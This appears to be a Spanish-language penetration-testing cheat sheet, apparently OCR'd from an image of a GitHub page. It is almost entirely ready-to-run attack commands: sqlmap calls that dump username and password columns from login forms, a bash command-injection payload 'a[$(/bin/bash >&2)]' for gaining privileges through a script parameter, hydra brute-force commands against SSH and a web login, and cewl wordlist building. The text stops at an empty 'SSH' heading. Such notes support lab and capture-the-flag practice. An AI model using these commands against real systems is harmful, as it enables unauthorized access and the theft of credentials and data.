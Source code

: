 Visualizar todas las columnas de una tabla:

```shell
sqlmap -u http://IP/login.html -D database -T table --columns --batch --forms
```

Visualizar el valor de dichas columnas:

```shell
sqlmap -u http://IP/login.html -D database -T table -C username,password --batch --forms --dump
```

Visualizar los datos gracias a un fichero:

```shell
sqlmap -r file (--dbs) --dump -batch --level 5 -risk 3
```

# GAIN PRIVILEGES IN A PARAMETER SCRIPT

```shell
a[$(/bin/bash >&2)]
```

# BRUTE FORCE

Obtener password de un usuario para conectarse via SSH:

```shell
hydra -l user -P wordlist ssh://IP
```

Obtener usuario cuando sabemos la password para conectarnos via SSH:

```shell
hydra -L wordlist -p pass ssh://IP
```

Obtener password de una pagina de login donde conocemos el usuario (antes deberemos de interceptar la peticion con BurpSuite para conocer el nombre exacto de los parametros en este caso son username y password):

```shell
hydra -l user -P wordlist IP http-post-form "/login.php:username=medusa&password=^PASS^:Invalid credentials"
```

# CREATE A DICTIONARY

Algunas de las herramientas conocidas son crunch o cupp, pero si queremos hacer un diccionario que contenga palabras de una web usaremos cewl:

```shell
cewl http://page > dictionary
```

# SSH
